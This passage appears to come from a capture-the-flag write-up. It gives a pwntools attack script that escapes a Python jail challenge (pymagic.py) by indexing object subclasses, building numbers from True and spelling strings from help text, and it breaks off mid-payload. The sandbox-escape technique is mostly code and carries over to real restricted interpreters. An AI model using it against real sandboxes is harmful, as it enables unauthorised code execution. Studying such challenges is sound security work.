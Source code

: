 Attack script:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming dict is at 28
dict_index = 28
assert subclasses.split(", ").index("<class 'dict'>") == dict_index
# assuming list is at 42
list_index = 42
assert subclasses.split(", ").index("<class 'list'>") == list_index
# assuming Printer is at 160
printer_index = 160
assert subclasses.split(", ").index("<class '_sitebuiltins._Printer'>") == printer_index
# assuming Helper is at 161
helper_index = 161
assert subclasses.split(", ").index("<class '_sitebuiltins._Helper'>") == helper_index

help_text = ().__class__.__base__.__subclasses__()[helper_index].__doc__


def get_index(index):
    parts = (
        ["True"] * (index % 10)
        + ["A"] * (index // 10 % 10)
        + ["B"] * (index // 100 % 10)
    )
    return "+".join(parts)


# synthesize string from help_text
def synthesize(text):
    res = []
    for ch in text:
        index = help_text.index(ch)
        res.append("S[" + get_index(index) + "]")
    return "+".join(res)


p = process(["python3", "pymagic.py"])
p.recvuntil(b">>> ")
p.sendline(
    (
        # A=10, B=100
        "[A:=True+True+True+True+True+True+True+True+True+True,B:=A*A,"
        # get indices for dict, list, Printer, Helper
        + f"D:={get_index(dict_index)},"
        + f"L:={get_index(list_index)},"
        + f"P:={get_index(printer_index)},"
        + f"H:={get_index(helper_index)},"
        # _.__class_getitem__ becomes type.__subclasses__
        + "type:=[].__class__.__class__,[None for _.__class_getitem__ in [type.__subclasses__]],"
        # locate dict: type.__subclasses__([].__class__.__base__))[D]
        + "dict:=_[[].__class__.__base__][D],"
        # locate list
        + "list:=_[[].__class__.__base__][L],"
        # locate Printer
```